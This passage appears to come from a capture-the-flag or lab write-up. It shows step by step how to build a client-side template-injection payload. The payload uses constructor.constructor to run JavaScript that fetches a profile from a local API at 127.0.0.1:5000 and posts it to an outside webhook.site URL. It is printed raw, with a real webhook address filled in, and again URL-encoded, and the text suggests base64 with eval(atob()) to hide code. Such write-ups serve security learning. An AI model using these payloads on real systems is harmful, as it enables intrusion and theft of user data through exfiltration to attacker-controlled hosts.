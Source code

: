 ```js
  .catch(console.error);
```

> Another way is to base64 your entire PoC code then put it inside `eval(atob(PAYLOAD)))` but that will take more time.

After this...

1. Minify this code
2. Put it inside the constructor payload from the previous step.

```js
{{constructor.constructor("let webhook=`YOUR_WEBHOOK_URL`;fetch(`http://127.0.0.1:5000/v1/api/profile/get`).then((e=>e.blob())).then((e=>{let t=new File([e],`image.jpg`,{type:e.type}),o=new FormData;o.append(`file`,t),fetch(webhook,{method:`POST`,body:o})})).catch(console.error);")()}}
```

> Notice that I use the ` character to close up strings instead of " or ' to either avoid SQL Injection or syntax errors

Visit Webhook and replace your unique URL with the `YOUR_WEBHOOK_URL` string.

![alt text](./.imgs/image18.png)

After replacing it, remember to URL-encode it.

```js
// Before URL-encoding
{{constructor.constructor("let webhook=`https://webhook.site/4625d87d-847d-4d68-870d-33c822601651`;fetch(`http://127.0.0.1:5000/v1/api/profile/get`).then((e=>e.blob())).then((e=>{let t=new File([e],`image.jpg`,{type:e.type}),o=new FormData;o.append(`file`,t),fetch(webhook,{method:`POST`,body:o})})).catch(console.error);")()}}

// After URL-encoding
%7B%7Bconstructor.constructor%28%22let%20webhook%3D%60https%3A%2F%2Fwebhook.site%2F4625d87d-847d-4d68-870d-33c822601651%60%3Bfetch%28%60http%3A%2F%2F127.0.0.1%3A5000%2Fv1%2Fapi%2Fprofile%2Fget%60%29.then%28%28e%3D%3Ee.blob%28%29%29%29.then%28%28e%3D%3E%7Blet%20t%3Dnew%20File%28%5Be%5D%2C%60image.jpg%60%2C%7Btype%3Ae.type%7D%29%2Co%3Dnew%20FormData%3Bo.append%28%60file%60%2Ct%29%2Cfetch%28webhook%2C%7Bmethod%3A%60POST%60%2Cbody%3Ao%7D%29%7D%29%29.catch%28console.error%29%3B%22%29%28%29%7D%7D
```
